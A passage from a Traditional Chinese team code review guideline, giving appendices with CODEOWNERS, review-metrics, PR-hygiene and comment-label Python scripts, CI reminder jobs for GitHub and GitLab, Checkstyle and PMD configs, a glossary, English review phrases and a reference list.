（v2.0 的 `codeActionsOnSave` 使用布林值 `true`，VS Code 1.85 起改為 `"explicit"`、`"always"` 或 `"never"`；`java.format.settings.url` 直接引用網路上的格式設定檔，改為以 Spotless 在建置中統一格式。`java.checkstyle.configuration` 需要安裝 Checkstyle for Java 擴充套件。v2.0 另有一個在程式碼中插入「`// TODO: Review`」註解的 IntelliJ 即時範本，審查意見應留在 PR 平台上而不是程式碼中，因此不再提供。）

## 附錄 C 工具設定與腳本

本附錄的腳本與設定檔都以測試資料實際執行過，輸出記錄在附錄 F.3。腳本只使用 Python 3.10 以上的標準函式庫、`gh`、`glab` 與 `jq`，建議放在程式庫的 `.github/scripts/` 或 `scripts/` 目錄並由 CODEOWNERS 保護。

### C.1 CODEOWNERS 檢查腳本

檢查一行多個樣式、GitHub 不支援的語法、通用規則的位置、GitLab 區段的語法與選用區段中的高風險路徑（18.3、18.5）。它只檢查語法與結構；擁有者是否存在與權限是否足夠，仍需以 `gh api repos/{owner}/{repo}/codeowners/errors` 或 GitLab 的檔案頁面確認。

```python
#!/usr/bin/env python3
"""檢查 CODEOWNERS 的常見錯誤（code review 指引 CR-GH-003、CR-GH-004、CR-GL-002、CR-GL-003）。

用法：python3 check_codeowners.py --platform github .github/CODEOWNERS
      python3 check_codeowners.py --platform gitlab .gitlab/CODEOWNERS
有錯誤時結束碼為 1。只檢查語法與結構，擁有者是否存在、是否有寫入權限請以平台 API 確認。
"""
import argparse
import re
import sys

OWNER_GITHUB = re.compile(r"^(@[A-Za-z0-9][A-Za-z0-9-]*(/[A-Za-z0-9._-]+)?|[^@\s]+@[^@\s]+\.[^@\s]+)$")
OWNER_GITLAB = re.compile(r"^(@@[a-z]+|@[A-Za-z0-9_.-]+(/[A-Za-z0-9_.-]+)*|[^@\s]+@[^@\s]+\.[^@\s]+)$")
SECTION = re.compile(r"^(\^)?\[([^\]]+)\](?:\[(\d+)\])?(.*)$")
HIGH_RISK = re.compile(r"(secur|auth|migration|\.gitlab|\.github|codeowners|\.gitlab-ci)", re.I)
GENERIC = {"*", "**", "/**", "**/*"}


def strip_comment(line):
    """GitHub 允許行內註解（# 前有空白）；行首的 # 是整行註解。"""
    if line.lstrip().startswith("#"):
        return ""
    return re.split(r"\s#", line, maxsplit=1)[0].strip()


def check_github(lines):
    errors, warnings = [], []
    seen_specific = None
    patterns = []
    for no, raw in enumerate(lines, 1):
        line = strip_comment(raw)
        if not line:
            continue
        if SECTION.match(line) and not line.startswith(("/", "*")):
            errors.append(f"第 {no} 行：GitHub 不支援 GitLab 的區段語法 {line.split()[0]}")
            continue
        pattern, *owners = line.split()
        if pattern.startswith("!"):
            errors.append(f"第 {no} 行：GitHub 不支援 ! 否定樣式，這一行會被略過")
            continue
        if "[" in pattern or "]" in pattern:
            errors.append(f"第 {no} 行：GitHub 不支援 [ ] 字元範圍，這一行會被略過")
            continue
        for owner in owners:
            if not owner.startswith("@") and "@" not in owner:
                errors.append(f"第 {no} 行：「{owner}」不是擁有者；一行只能有一個路徑樣式（CR-GH-004）")
            elif not OWNER_GITHUB.match(owner):
                errors.append(f"第 {no} 行：擁有者格式錯誤「{owner}」")
        if not owners:
            warnings.append(f"第 {no} 行：「{pattern}」沒有擁有者，符合的檔案不需要 CODEOWNER 核准")
        if pattern in GENERIC and seen_specific:
            errors.append(f"第 {no} 行：通用規則「{pattern}」出現在具體規則（第 {seen_specific} 行）之後，"
                          f"會覆蓋前面所有規則（CR-GH-004）")
        elif pattern not in GENERIC and seen_specific is None:
            seen_specific = no
        patterns.append(pattern.lstrip("/"))
    if not any(p in (".github/", ".github/**", ".github/*") for p in patterns):
        errors.append("缺少保護 .github/ 目錄的規則（CR-GH-003）")
    if not any(p == ".github/CODEOWNERS" for p in patterns):
        warnings.append("建議另外為 .github/CODEOWNERS 指定擁有者並放在檔案最後（CR-GH-003）")
    return errors, warnings


def check_gitlab(lines):
    errors, warnings = [], []
    section, optional = "(未分區段)", False
    platform_owned = False
    for no, raw in enumerate(lines, 1):
        line = raw.split("#", 1)[0].strip() if not raw.lstrip().startswith("#") else ""
        if not line:
            continue
        m = SECTION.match(line)
        if m and not line.startswith(("/", "*", "!")):
            optional = bool(m.group(1))
            section = m.group(2)
            rest = m.group(4).split()
            for token in rest:
                if re.fullmatch(r"\(\d+\)", token):
                    errors.append(f"第 {no} 行：「{token}」不是核准人數的語法，應寫成 [{section}][{token[1:-1]}]（CR-GL-002）")
                elif not OWNER_GITLAB.match(token):
                    errors.append(f"第 {no} 行：區段的預設擁有者格式錯誤「{token}」")
            if optional and m.group(3):
                errors.append(f"第 {no} 行：選用區段 ^[{section}] 不能要求核准人數 [{m.group(3)}]")
            continue
        pattern, *owners = line.split()
        for owner in owners:
            if not OWNER_GITLAB.match(owner):
                errors.append(f"第 {no} 行：「{owner}」不是擁有者；一行只能有一個路徑樣式")
        if optional and HIGH_RISK.search(pattern):
            errors.append(f"第 {no} 行：高風險路徑「{pattern}」放在選用區段 ^[{section}]，不需要任何核准（CR-GL-002）")
        if not optional and pattern.lstrip("/").startswith(".gitlab"):
            platform_owned = True
    if not platform_owned:
        errors.append("缺少在必要區段中保護 .gitlab/ 或 .gitlab-ci.yml 的規則（CR-GL-003）")
    return errors, warnings


def main():
    parser = argparse.ArgumentParser(description=__doc__.splitlines()[0])
    parser.add_argument("--platform", choices=["github", "gitlab"], required=True)
    parser.add_argument("file")
    args = parser.parse_args()
    with open(args.file, encoding="utf-8") as f:
        lines = f.read().splitlines()
    errors, warnings = (check_github if args.platform == "github" else check_gitlab)(lines)
    for w in warnings:
        print(f"警告：{w}")
    for e in errors:
        print(f"錯誤：{e}")
    print(f"結果：{len(errors)} 個錯誤，{len(warnings)} 個警告")
    return 1 if errors else 0


if __name__ == "__main__":
    sys.exit(main())
```

在 CI 中執行（GitHub Actions 的步驟片段）：

```yaml
      - name: CODEOWNERS 檢查（CR-GH-003、CR-GH-004）
        run: python3 .github/scripts/check_codeowners.py --platform github .github/CODEOWNERS
```

（片段：只截取一個步驟。）

### C.2 審查度量報表

以 `gh pr list` 的輸出計算第 22 章的速度、規模、品質與控制指標。計算方式寫在腳本開頭的說明中；附錄 F.3 記錄了以測試資料執行的結果與手算的比對。

```python
#!/usr/bin/env python3
"""從 gh pr list 的 JSON 輸出計算審查指標（code review 指引 CR-MET-001、CR-MET-003）。

用法：
  gh pr list --state merged --limit 500 --search "merged:2026-09-01..2026-09-30" \
    --json number,author,createdAt,mergedAt,additions,deletions,reviews > prs.json
  python3 review_metrics.py prs.json

計算方式：
  - 首次回應時間：PR 建立到第一個非作者、非機器人的審查（任何狀態）。
    gh pr list 不提供「轉為 Ready 的時間」，草稿期間會被計入；需要精確值時改用 GraphQL 的 ReadyForReviewEvent。
  - 審查週期時間：PR 建立到合併。
  - 往返輪數：CHANGES_REQUESTED 的審查次數。
  - 無意見核准：核准的審查中，所有審查本文皆為空白。
  - 機器人：登入名稱以 [bot] 結尾、或為 Copilot、或 is_bot 為 true。
"""
import json
import statistics
import sys
from datetime import datetime


def parse(ts):
    return datetime.fromisoformat(ts.replace("Z", "+00:00"))


def is_bot(user):
    login = (user or {}).get("login", "")
    return bool((user or {}).get("is_bot")) or login.endswith("[bot]") or login in ("Copilot", "copilot-pull-request-reviewer")


def percentile(values, p):
    if not values:
        return None
    ordered = sorted(values)
    k = (len(ordered) - 1) * p / 100
    lo, hi = int(k), min(int(k) + 1, len(ordered) - 1)
    return ordered[lo] + (ordered[hi] - ordered[lo]) * (k - lo)


def fmt_hours(v):
    return "—" if v is None else f"{v:.1f} 小時"


def main(path):
    with open(path, encoding="utf-8") as f:
        prs = json.load(f)
    first_response, cycle, size, rounds = [], [], [], []
    silent_approvals, bot_only = [], []
    merged = 0
    for pr in prs:
        if is_bot(pr.get("author")):
            continue
        author = (pr.get("author") or {}).get("login")
        created = parse(pr["createdAt"])
        humans = [r for r in pr.get("reviews", []) if not is_bot(r.get("author"))
                  and (r.get("author") or {}).get("login") != author]
        if humans:
            first = min(parse(r["submittedAt"]) for r in humans)
            first_response.append((first - created).total_seconds() / 3600)
        if pr.get("mergedAt"):
            merged += 1
            cycle.append((parse(pr["mergedAt"]) - created).total_seconds() / 3600)
            approvals = [r for r in pr.get("reviews", []) if r.get("state") == "APPROVED"]
            if approvals and all(is_bot(r.get("author")) for r in approvals):
                bot_only.append(pr["number"])
        lines = pr.get("additions", 0) + pr.get("deletions", 0)
        size.append(lines)
        rounds.append(sum(1 for r in humans if r.get("state") == "CHANGES_REQUESTED"))
        if any(r.get("state") == "APPROVED" for r in humans) and not any((r.get("body") or "").strip() for r in humans):
            silent_approvals.append((pr["number"], lines))

    print(f"PR 數：{len(size)}（已合併 {merged}；已排除機器人建立的 PR）")
    print(f"首次回應時間   P50 {fmt_hours(percentile(first_response, 50)):>10}   P90 {fmt_hours(percentile(first_response, 90)):>10}")
    print(f"審查週期時間   P50 {fmt_hours(percentile(cycle, 50)):>10}   P90 {fmt_hours(percentile(cycle, 90)):>10}")
    if size:
        print(f"變更行數       P50 {percentile(size, 50):>7.0f} 行   P90 {percentile(size, 90):>7.0f} 行   最大 {max(size)} 行")
        print(f"往返輪數       P50 {statistics.median(rounds):>7.1f}      最大 {max(rounds)}")
    big = [n for n, lines in silent_approvals if lines > 300]
    print(f"無意見核准     {len(silent_approvals)} 個（超過 300 行：{', '.join('#' + str(n) for n in big) or '無'}）")
    print(f"只有機器人核准 {len(bot_only)} 個{('：' + ', '.join('#' + str(n) for n in bot_only)) if bot_only else ''}")


if __name__ == "__main__":
    if len(sys.argv) != 2:
        sys.exit("usage: review_metrics.py <prs.json>")
    main(sys.argv[1])
```

以測試資料（`fixtures/prs.json`，5 個 PR，其中 1 個由 Dependabot 建立）執行的輸出：

```text
PR 數：4（已合併 4；已排除機器人建立的 PR）
首次回應時間   P50     2.0 小時   P90    15.6 小時
審查週期時間   P50    16.0 小時   P90    40.8 小時
變更行數       P50     150 行   P90     375 行   最大 450 行
往返輪數       P50     0.5      最大 2
無意見核准     1 個（超過 300 行：#102）
只有機器人核准 1 個：#103
```

### C.3 審查提醒

GitHub Actions 版本（每個工作日早上提醒，並在超過時限的 PR 留言；週一把週末計入）：

```yaml
name: review-reminder
on:
  schedule:
    - cron: "0 1 * * 1-5"   # 週一至週五 UTC 01:00（台北 09:00）
  workflow_dispatch:
permissions:
  contents: read
  pull-requests: write
jobs:
  remind:
    runs-on: ubuntu-latest
    steps:
      - name: 提醒等待審查超過 1 個工作天的 PR
        env:
          GH_TOKEN: ${{ github.token }}
          REPO: ${{ github.repository }}
        run: |
          # 週一提醒時把週末也算進去：週一門檻 72 小時，其他日子 24 小時
          if [ "$(date -u +%u)" = "1" ]; then limit=259200; else limit=86400; fi
          gh pr list --repo "$REPO" --state open --search "draft:false review:required" \
            --json number,title,url,updatedAt \
            --jq ".[] | select((now - (.updatedAt | fromdateiso8601)) > $limit) | [.number, .title, .url] | @tsv" \
            > stale.tsv
          {
            echo "### 等待審查超過 1 個工作天的 PR"
            if [ -s stale.tsv ]; then
              while IFS=$'\t' read -r number title url; do
                echo "- #${number} ${title}（${url}）"
              done < stale.tsv
            else
              echo "- 沒有"
            fi
          } >> "$GITHUB_STEP_SUMMARY"
          while IFS=$'\t' read -r number _ _; do
            gh pr comment "$number" --repo "$REPO" \
              --body "🔔 這個 PR 已等待審查超過 1 個工作天（code review 指引 CR-PRC-002）。審查者若無法在今天完成，請回覆預計時間或請其他人代理。"
          done < stale.tsv
```

GitLab CI 版本（以排程管線執行，需在 CI/CD 設定中建立排程並設定變數 `REVIEW_REMINDER=true`）。v2.0 的版本以 jq 的 `strftime` 比較日期字串，格式不一致時會比較錯誤；這裡改用 GitLab API 的 `updated_before` 與 `draft=false` 參數，由伺服器篩選：

```yaml
review-reminder:
  image: alpine:3.22
  rules:
    - if: $CI_PIPELINE_SOURCE == "schedule" && $REVIEW_REMINDER == "true"
  before_script:
    - apk add --no-cache curl jq
  script:
    - |
      # REVIEW_BOT_TOKEN：專案存取權杖（Reporter 角色＋api 範圍），設為 masked、protected 的 CI/CD 變數
      cutoff=$(jq -rn 'now - 86400 | todate')
      curl --fail --silent --show-error --header "PRIVATE-TOKEN: ${REVIEW_BOT_TOKEN}" \
        "${CI_API_V4_URL}/projects/${CI_PROJECT_ID}/merge_requests?state=opened&draft=false&reviewer_id=Any&updated_before=${cutoff}&per_page=100" \
        > stale.json
      jq -r '.[] | "!\(.iid) \(.title) \(.web_url)"' stale.json
      for iid in $(jq -r '.[].iid' stale.json); do
        curl --fail --silent --show-error --request POST --header "PRIVATE-TOKEN: ${REVIEW_BOT_TOKEN}" \
          --data-urlencode "body=🔔 這個 MR 已等待審查超過 1 個工作天（code review 指引 CR-PRC-002）。審查者若無法在今天完成，請回覆預計時間或請其他人代理。" \
          "${CI_API_V4_URL}/projects/${CI_PROJECT_ID}/merge_requests/${iid}/notes" > /dev/null
      done
```

### C.4 PR 衛生檢查

在每個 PR 執行 4.1 的 `pr-size.sh` 與下面的 `pr_hygiene.py`：檢查標題（CR-AUT-005）、描述的必填段落（CR-AUT-003）、風險標籤（CR-PRC-007）、AI 使用揭露（CR-AI-004）、新增的抑制註解（CR-AUTO-006）與缺少測試的變更（CR-TST-001）。它只能檢查「段落是否有內容」，無法判斷內容是否充分（例如「如何驗證：已測試」仍會通過），內容的品質仍需審查者判斷。

```python
#!/usr/bin/env python3
"""PR 衛生檢查（code review 指引 CR-AUT-003、CR-AUT-005、CR-PRC-007、CR-AI-004、CR-AUTO-006、CR-TST-001）。

用法：python3 pr_hygiene.py --event "$GITHUB_EVENT_PATH" --diff pr.diff
  --event：GitHub Actions 的事件 JSON（pull_request 事件）
  --diff ：git diff origin/<base>...HEAD 的輸出
錯誤會讓結束碼為 1；警告只寫入摘要。設定 GITHUB_STEP_SUMMARY 時，結果也會寫入工作摘要。
"""
import argparse
import json
import os
import re
import sys

TITLE = re.compile(r"^(feat|fix|docs|refactor|perf|test|build|ci|chore|revert)(\([a-z0-9-]+\))?!?: \S.*")
REQUIRED_SECTIONS = ("目的", "如何驗證", "風險與影響")
SUPPRESSION = re.compile(r"@SuppressWarnings|@SuppressFBWarnings|NOSONAR|nosemgrep|eslint-disable|@ts-expect-error|@ts-ignore|CHECKSTYLE:OFF")


def sections(body):
    """回傳 {標題: 去除 HTML 註解後的內容}。"""
    body = re.sub(r"<!--.*?-->", "", body or "", flags=re.S)
    result, current = {}, None
    for line in body.splitlines():
        m = re.match(r"^##\s+(.+?)\s*$", line)
        if m:
            current = m.group(1)
            result[current] = []
        elif current:
            result[current].append(line)
    return {k: "\n".join(v).strip() for k, v in result.items()}


def added_lines(diff):
    """回傳 [(檔案, 新增的行)]。"""
    out, path = [], None
    for line in diff.splitlines():
        if line.startswith("+++ "):
            path = line[6:] if line.startswith("+++ b/") else None
        elif line.startswith("+") and not line.startswith("+++") and path:
            out.append((path, line[1:]))
    return out


def changed_files(diff):
    return {m.group(1) for m in re.finditer(r"^\+\+\+ b/(.+)$", diff, re.M)}


def check(event, diff):
    errors, warnings = [], []
    pr = event["pull_request"]
    title, body = pr.get("title", ""), pr.get("body") or ""
    labels = [label["name"] for label in pr.get("labels", [])]

    if not TITLE.match(title):
        errors.append(f"PR 標題不符合 Conventional Commits：「{title}」（CR-AUT-005）")
    secs = sections(body)
    for name in REQUIRED_SECTIONS:
        if not secs.get(name):
            errors.append(f"PR 描述的「{name}」段落是空的或不存在（CR-AUT-003）")
    risk = [label for label in labels if label.startswith("risk:")]
    if len(risk) != 1:
        errors.append(f"必須有且只有一個風險標籤 risk:low／risk:medium／risk:high，目前為 {risk or '無'}（CR-PRC-007）")
    ai = secs.get("AI 使用揭露", "")
    if not re.search(r"- \[[xX]\]", ai):
        warnings.append("「AI 使用揭露」段落沒有勾選任何選項（CR-AI-004）")

    for path, line in added_lines(diff):
        if SUPPRESSION.search(line):
            warnings.append(f"新增的抑制註解，請審查者確認理由：{path}：{line.strip()[:100]}（CR-AUTO-006）")
    files = changed_files(diff)
    main_changed = any(re.match(r"(src/main/|frontend/src/(?!.*\.spec\.))", f) for f in files)
    test_changed = any(re.match(r"(src/test/|.*\.spec\.ts$|.*\.test\.ts$)", f) for f in files)
    if main_changed and not test_changed:
        warnings.append("修改了產品程式碼但沒有修改任何測試，請確認是否為不改變行為的變更（CR-TST-001）")
    return errors, warnings


def main():
    parser = argparse.ArgumentParser()
    parser.add_argument("--event", required=True)
    parser.add_argument("--diff", required=True)
    args = parser.parse_args()
    with open(args.event, encoding="utf-8") as f:
        event = json.load(f)
    with open(args.diff, encoding="utf-8") as f:
        diff = f.read()
    errors, warnings = check(event, diff)
    report = ["### PR 衛生檢查", ""]
    report += [f"- ❌ {e}" for e in errors] + [f"- ⚠️ {w}" for w in warnings]
    if not errors and not warnings:
        report.append("- ✅ 全部通過")
    print("\n".join(report))
    for e in errors:
        print(f"::error::{e}")
    summary = os.environ.get("GITHUB_STEP_SUMMARY")
    if summary:
        with open(summary, "a", encoding="utf-8") as f:
            f.write("\n".join(report) + "\n")
    return 1 if errors else 0


if __name__ == "__main__":
    sys.exit(main())
```

```yaml
name: pr-hygiene
on:
  pull_request:
    types: [opened, edited, synchronize, reopened, labeled, unlabeled, ready_for_review]
permissions:
  contents: read
  pull-requests: read
jobs:
  hygiene:
    if: github.event.pull_request.draft == false
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@3d3c42e5aac5ba805825da76410c181273ba90b1 # v7.0.1
        with:
          fetch-depth: 0
          persist-credentials: false
      - name: PR 大小（CR-AUT-001）
        env:
          GH_TOKEN: ${{ github.token }}
          PR_NUMBER: ${{ github.event.pull_request.number }}
        run: bash .github/scripts/pr-size.sh "$PR_NUMBER"
      - name: 標題、描述、標籤、抑制註解、測試（附錄 C.4）
        env:
          BASE_REF: ${{ github.event.pull_request.base.ref }}
        run: |
          git diff "origin/${BASE_REF}...HEAD" > pr.diff
          python3 .github/scripts/pr_hygiene.py --event "$GITHUB_EVENT_PATH" --diff pr.diff
```

### C.5 審查意見標籤統計

統計審查意見使用 Conventional Comments 標籤的比例（CR-CMT-001），以及各機器人（AI 審查工具）的意見數量（CR-AI-007）。

```python
#!/usr/bin/env python3
"""統計審查意見的 Conventional Comments 標籤使用情況（code review 指引 CR-CMT-001、CR-AI-007）。

用法：
  gh api --paginate "repos/OWNER/REPO/pulls/comments?since=2026-09-01T00:00:00Z&per_page=100" > comments.json
  python3 comment_labels.py comments.json
輸入是 GitHub「List review comments in a repository」API 的回應（gh --paginate 會把多頁合併成一個陣列）。
"""
import json
import re
import sys
from collections import Counter

LABEL = re.compile(
    r"^\s*(?:\*\*)?(praise|nitpick|suggestion|issue|todo|question|thought|chore|note|typo|polish|quibble)"
    r"\s*(?:\(([a-z, -]+)\))?\s*:", re.I)


def is_bot(user):
    login = (user or {}).get("login", "")
    return (user or {}).get("type") == "Bot" or login.endswith("[bot]") or login == "Copilot"


def main(path):
    with open(path, encoding="utf-8") as f:
        comments = json.load(f)
    human = [c for c in comments if not is_bot(c.get("user"))]
    bots = Counter(c["user"]["login"] for c in comments if is_bot(c.get("user")))
    labels, decorations = Counter(), Counter()
    for c in human:
        m = LABEL.match(c.get("body") or "")
        if m:
            labels[m.group(1).lower()] += 1
            for d in (m.group(2) or "").split(","):
                if d.strip():
                    decorations[d.strip()] += 1
    labelled = sum(labels.values())
    ratio = labelled / len(human) * 100 if human else 0
    print(f"人類審查意見：{len(human)} 則，使用 Conventional Comments 標籤：{labelled} 則（{ratio:.0f}%）")
    for name, n in labels.most_common():
        print(f"  {name:<10} {n}")
    if decorations:
        print("裝飾：" + "、".join(f"{d} {n}" for d, n in decorations.most_common()))
    if bots:
        print("機器人意見：" + "、".join(f"{b} {n}" for b, n in bots.most_common()))


if __name__ == "__main__":
    if len(sys.argv) != 2:
        sys.exit("usage: comment_labels.py <comments.json>")
    main(sys.argv[1])
```

### C.6 Checkstyle 與 PMD 設定

本指引引用的工具規則集中在下列兩個設定檔；完整的團隊規則見 [程式寫作指引]() 第 19 章。兩個設定檔都以 Checkstyle 14.3.0 與 PMD 7.28.0 對本指引的 ✅ 與 ❌ 範例實際執行過（附錄 F.3）。

```xml
<?xml version="1.0"?>
<!DOCTYPE module PUBLIC
    "-//Checkstyle//DTD Checkstyle Configuration 1.3//EN"
    "https://checkstyle.org/dtds/configuration_1_3.dtd">
<!-- 本指引引用的 Checkstyle 規則（CR-MNT-001、CR-MNT-003、CR-MNT-004、CR-MNT-006、CR-MNT-007）。
     完整的團隊規則見程式寫作指引第 19.2 節；此處只列出審查時最常需要的部分。 -->
<module name="Checker">
  <property name="charset" value="UTF-8"/>
  <property name="severity" value="error"/>
  <module name="TreeWalker">
    <module name="TypeName"/>
    <module name="MethodName"/>
    <module name="ConstantName">
      <property name="format" value="^log(ger)?$|^[A-Z][A-Z0-9]*(_[A-Z0-9]+)*$"/>
    </module>
    <module name="LocalVariableName"/>
    <module name="MemberName"/>
    <module name="ParameterName"/>
    <module name="NestedIfDepth">
      <property name="max" value="2"/>
    </module>
    <module name="MethodLength">
      <property name="max" value="60"/>
      <property name="countEmpty" value="false"/>
    </module>
    <module name="MissingJavadocMethod">
      <property name="scope" value="public"/>
      <property name="allowMissingPropertyJavadoc" value="true"/>
      <property name="minLineCount" value="3"/>
    </module>
    <module name="TodoComment">
      <property name="format" value="(TODO|FIXME)(?!\(#\d+\))"/>
    </module>
  </module>
</module>
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<ruleset name="code-review"
         xmlns="http://pmd.sourceforge.net/ruleset/2.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://pmd.sourceforge.net/ruleset/2.0.0 https://pmd.sourceforge.io/ruleset_2_0_0.xsd">
  <description>本指引引用的 PMD 7 規則（CR-AUT-007、CR-COR-005、CR-COR-006、CR-COR-013、CR-COR-014、CR-MNT-003、CR-TST-004）</description>
  <rule ref="category/java/bestpractices.xml/SystemPrintln"/>
  <rule ref="category/java/bestpractices.xml/UnitTestShouldIncludeAssert">
    <properties>
      <!-- MockMvc 的 andExpect 也是斷言 -->
      <property name="extraAssertMethodNames" value="andExpect"/>
    </properties>
  </rule>
  <rule ref="category/java/errorprone.xml/EmptyCatchBlock"/>
  <rule ref="category/java/errorprone.xml/CloseResource"/>
  <rule ref="category/java/errorprone.xml/AvoidDecimalLiteralsInBigDecimalConstructor"/>
  <rule ref="category/java/errorprone.xml/AvoidCatchingGenericException"/>
  <rule ref="category/java/design.xml/CognitiveComplexity">
    <properties>
      <property name="reportLevel" value="15"/>
    </properties>
  </rule>
</ruleset>
```

## 附錄 D 術語表與常用審查用語

### D.1 術語表

| 英文 | 中文 | 說明 |
| --- | --- | --- |
| Pull Request（PR） | 拉取請求 | GitHub 上請求把分支合併到目標分支的單位 |
| Merge Request（MR） | 合併請求 | GitLab 上與 PR 相同的概念 |
| Code Review | 程式碼審查 | 由作者以外的人檢查程式碼變更的活動 |
| Author | 作者 | 建立變更並對其正確性負主要責任的人（2.1） |
| Reviewer | 審查者 | 被指派審查變更的人；GitLab 中與 Assignee（負責人）是不同的欄位 |
| Approver | 核准者 | 核准會計入必要核准人數的審查者 |
| CODEOWNERS | 程式碼擁有者 | 依路徑指定必要審查者的檔案（18.3、18.5） |
| Approve | 核准 | 審查者同意合併 |
| Request changes | 要求修改 | GitHub 的審查狀態，阻擋合併直到該審查者核准或審查被撤銷 |
| Stale approval | 過期的核准 | 核准後又有新提交，核准對應的已不是最新版本（3.3） |
| Required status check | 必要狀態檢查 | 必須通過才能合併的 CI 檢查（17.1） |
| Ruleset | 規則集 | GitHub 保護分支與標籤的規則集合（18.2） |
| Bypass | 略過 | 被允許不受規則集限制的對象與方式 |
| Merge queue／Merge train | 合併佇列／合併列車 | 合併前以「目標分支最新狀態＋變更」再跑一次 CI 的機制（3.6） |
| Draft | 草稿 | 尚未準備好審查的 PR／MR（4.5） |
| Stacked PR | 堆疊 PR | 一串互相依賴、依序合併的小 PR（4.5） |
| Squash | 壓縮合併 | 把 PR 的所有提交合併成一個提交 |
| Rebase | 變基 | 把提交移到新的基底上重新套用 |
| Conventional Commits | 約定式提交 | 提交訊息格式規範（4.3） |
| Conventional Comments | 約定式意見 | 審查意見的標籤格式（6.1） |
| Nit／Nitpick | 小細節 | 不影響合併的微小意見 |
| LGTM | Looks Good To Me | 「看起來沒問題」；單獨使用時無法說明審查範圍（CR-ROLE-002） |
| WIP | Work In Progress | 進行中的工作，應改用草稿 PR |
| RFC | Request For Comments | 徵求意見的提案 |
| ADR | Architecture Decision Record | 架構決策紀錄（7.1） |
| Walk-through | 走查 | 由作者主導、逐段說明程式碼的同步審查（3.5） |
| Inspection | 正式檢查 | IEEE 1028 定義的正式審查，有主持人、記錄者與量測（3.5） |
| Quality gate | 品質閘門 | 必須通過才能合併的自動化檢查集合（17.1） |
| SAST／SCA | 靜態應用程式安全測試／軟體組成分析 | 掃描程式碼弱點／相依套件弱點與授權 |
| Flaky test | 不穩定的測試 | 相同程式碼有時通過有時失敗的測試（10.4） |
| Mutation testing | 變異測試 | 故意修改程式碼以檢驗測試是否會失敗（10.2） |
| N+1 query | N+1 查詢 | 先查 N 筆再逐筆查關聯資料的效能問題（12.1） |
| Expand and contract | 擴充與收縮 | 分多次部署完成破壞性資料庫變更的方法（13.2） |
| Prompt injection | 提示注入 | 在 AI 讀取的內容中夾帶指令，影響 AI 的行為（19.3） |
| Package hallucination／Slopsquatting | 套件幻覺／幻覺套件搶註 | AI 建議不存在的套件，攻擊者搶先註冊該名稱（15.2） |
| Automation bias | 自動化偏誤 | 過度信任自動化工具的結果而減少自己的判斷（5.4） |

### D.2 常用英文審查用語

跨國團隊或開源專案中常見的英文審查用語。使用時仍應加上 Conventional Comments 標籤說明分量（6.1）。

| 用途 | 英文 | 中文 |
| --- | --- | --- |
| 建議 | Consider using … | 可以考慮使用…… |
| 建議 | This could be simplified by … | 這裡可以用……簡化 |
| 建議 | What do you think about …? | 你覺得……如何？ |
| 指出問題 | This will throw an NPE when … | 當……時這裡會拋出 NPE |
| 指出問題 | I'm concerned that … | 我擔心…… |
| 指出問題 | This could lead to … | 這可能導致…… |
| 提問 | Is this intentional? | 這是刻意的嗎？ |
| 提問 | Could you explain why …? | 可以說明為什麼……嗎？ |
| 範圍 | Out of scope for this PR, but … | 不在這個 PR 的範圍，但…… |
| 範圍 | Can we do this in a follow-up? | 可以在後續的 PR 處理嗎？ |
| 肯定 | Nice catch! | 發現得好！ |
| 肯定 | This is much easier to read. | 這樣好讀多了。 |
| 核准 | LGTM, verified locally with … | 沒問題，已在本機以……驗證 |

```markdown
<!-- 英文審查意見範例（Conventional Comments 格式） -->
**issue (blocking):** This query loads the order by id only, so any customer can cancel
any order. Please filter by `customerId` as well (CR-SEC-004).

**suggestion (non-blocking):** Consider moving the length check to `@Size(max = 200)`
on the DTO so the controller returns 400 consistently.

**praise:** Great test coverage for the double-cancel case!
```

## 附錄 E 參考資料

查證日期皆為 2026-10-08；標示「（未能直接開啟）」的項目以官方原始碼或可信的二手資料確認，列入附錄 F.4。

### E.1 標準與框架

| 文件 | 版本／狀態 | 用途 |
| --- | --- | --- |
| [IEEE 1028 Standard for Software Reviews and Audits](https://standards.ieee.org/ieee/1028/4402/) | 2008；2019-11 起 Inactive-Reserved | 審查類型與角色（1.2、3.5） |
| [ISO/IEC 20246 Work product reviews](https://www.iso.org/standard/67407.html) | 2017（2022 確認） | 通用審查流程（3.1） |
| [ISO/IEC 25010 Product quality model](https://www.iso.org/standard/78176.html) | 2023 | 品質特性（5.3） |
| [NIST SP 800-218 SSDF](https://csrc.nist.gov/pubs/sp/800/218/final) | 1.1；1.2 初稿（SP 800-218r1 ipd，2025-12） | PW.7 程式碼審查（1.3、11.1） |
| [OWASP Top 10](https://top10.owasp.org/2025/) | 2025 | 11.7 |
| [OWASP ASVS](https://owasp.org/www-project-application-security-verification-standard/) | 5.0.0 | 第 11 章 |
| [OWASP Code Review Guide](https://owasp.org/www-project-code-review-guide/) | 2.0（2017）；Lab 專案 | 第 11 章 |
| [SLSA Specification](https://slsa.dev/spec/v1.2/) | v1.2（2025-11，Source Track 正式版） | 雙人審查（1.3） |
| [WCAG](https://www.w3.org/TR/WCAG22/) | 2.2 | 14.3 |
| [RFC 2119](https://www.rfc-editor.org/rfc/rfc2119)／[RFC 8174](https://www.rfc-editor.org/rfc/rfc8174) | — | 規範用語（0.3） |
| [RFC 9457 Problem Details](https://www.rfc-editor.org/rfc/rfc9457) | 2023 | 錯誤回應（8.3） |

### E.2 業界實務與研究

| 文件 | 用途 |
| --- | --- |
| [Google Engineering Practices: Code Review](https://google.github.io/eng-practices/review/)（最後更新 2024-09） | 審查標準、速度、小變更、意見撰寫（第 3–6 章） |
| Sadowski et al., "Modern Code Review: A Case Study at Google", ICSE-SEIP 2018 | 審查的目的與延遲（1.1、3.2） |
| Bacchelli & Bird, "Expectations, Outcomes, and Challenges of Modern Code Review", ICSE 2013 | 審查的實際成果（1.1） |
| SmartBear, "Best Kept Secrets of Peer Code Review"（Cisco 案例：2,500 次審查、320 萬行） | 審查行數與時間（4.1、5.4） |
| [Conventional Comments](https://conventionalcomments.org/) | 意見格式（6.1） |
| [Conventional Commits 1.0.0](https://www.conventionalcommits.org/en/v1.0.0/) | 提交訊息（4.3） |
| [DORA 2025 State of AI-assisted Software Development](https://dora.dev/research/2025/dora-report/) | AI 的放大效應、交付指標（19、22） |
| METR, "Measuring the Impact of Early-2025 AI on Experienced Open-Source Developer Productivity"（2025-07） | AI 對資深開發者效率的實驗（19） |
| Veracode, "2025 GenAI Code Security Report"（2025-07） | AI 產生程式碼的安全問題（0.1） |

### E.3 平台與工具文件

